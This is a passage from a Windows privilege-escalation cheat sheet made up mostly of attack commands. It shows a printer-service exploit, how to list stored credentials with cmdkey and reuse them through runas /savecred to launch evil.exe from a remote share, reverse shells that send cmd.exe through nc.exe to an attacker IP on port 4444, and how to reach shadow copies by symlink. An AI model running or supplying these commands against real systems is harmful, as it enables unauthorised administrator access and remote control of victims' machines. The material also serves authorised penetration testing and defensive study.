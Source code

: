 ```powershell
cp_server.exe -e ACIDDAMAGE
# Get-Printer
# Set the "Advanced Sharing Settings" -> "Turn off password protected sharing"
cp_client.exe -r 10.0.0.9 -n ACIDDAMAGE -e ACIDDAMAGE
cp_client.exe -l -e ACIDDAMAGE
```

## EoP - Runas

Use the `cmdkey` to list the stored credentials on the machine.

```powershell
cmdkey /list
Currently stored credentials:
 Target: Domain:interactive=WORKGROUP\Administrator
 Type: Domain Password
 User: WORKGROUP\Administrator
```

Then you can use `runas` with the `/savecred` options in order to use the saved credentials.
The following example is calling a remote binary via an SMB share.

```powershell
runas /savecred /user:WORKGROUP\Administrator "\\10.XXX.XXX.XXX\SHARE\evil.exe"
runas /savecred /user:Administrator "cmd.exe /k whoami"
```

Using `runas` with a provided set of credential.

```powershell
C:\Windows\System32\runas.exe /env /noprofile /user:<username> <password> "c:\users\Public\nc.exe -nc <attacker-ip> 4444 -e cmd.exe"
```

```powershell
$secpasswd = ConvertTo-SecureString "<password>" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("<user>", $secpasswd)
$computer = "<hostname>"
[System.Diagnostics.Process]::Start("C:\users\public\nc.exe","<attacker_ip> 4444 -e cmd.exe", $mycreds.Username, $mycreds.Password, $computer)
```

## EoP - Abusing Shadow Copies

If you have local administrator access on a machine try to list shadow copies, it's an easy way for Privilege Escalation.

```powershell
# List shadow copies using vssadmin (Needs Admnistrator Access)
vssadmin list shadows
  
# List shadow copies using diskshadow
diskshadow list shadows all
  
# Make a symlink to the shadow copy and access it
mklink /d c:\shadowcopy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\
```
